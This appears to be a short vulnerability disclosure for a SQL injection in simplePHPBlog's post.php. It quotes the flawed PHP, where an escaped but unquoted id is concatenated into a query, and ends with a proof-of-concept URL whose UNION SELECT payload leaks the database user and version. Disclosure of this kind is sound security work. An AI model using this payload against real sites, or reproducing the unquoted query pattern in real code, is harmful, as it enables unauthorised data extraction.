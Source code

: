 simplePHPBlog SQL injection

##Vulnerability link##

https://github.com/ajamous/simplePHPBlog

##Vulnerability details##

post.php

	<?php
	    require 'config/db.php';
	    //Get ID of POST
	    $id = mysqli_real_escape_string($conn, $_GET['id']);
	    //create query
	    $query = 'SELECT * FROM posts WHERE id = ' .$id;
	    // get the results
	    $result = mysqli_query($conn, $query);
	    // Fetch Data from database
	    $post = mysqli_fetch_assoc($result);
	    // var_dump is used to test out the query results - enable if needed only
	    //var_dump($posts);
	    // Free the results from memory
	    mysqli_free_result($result);
	    // close connection with MySQL database once you have retreived the data
	    mysqli_close($conn);
	?>

In this code `id` use `mysqli_real_escape_string` but in sql query `$query = 'SELECT * FROM posts WHERE id = ' .$id;` there is no single quotes to use in sql.


	--
	-- Table structure for table `posts`
	--
	
	CREATE TABLE `posts` (
	  `id` int(11) NOT NULL,
	  `title` varchar(255) NOT NULL,
	  `body` text NOT NULL,
	  `author` varchar(255) NOT NULL,
	  `created_at` timestamp NOT NULL DEFAULT CURRENT_TIMESTAMP
	) ENGINE=InnoDB DEFAULT CHARSET=utf8;


 
exploit:

http://target/post.php?id=-1 union select 1,2,user(),version(),5
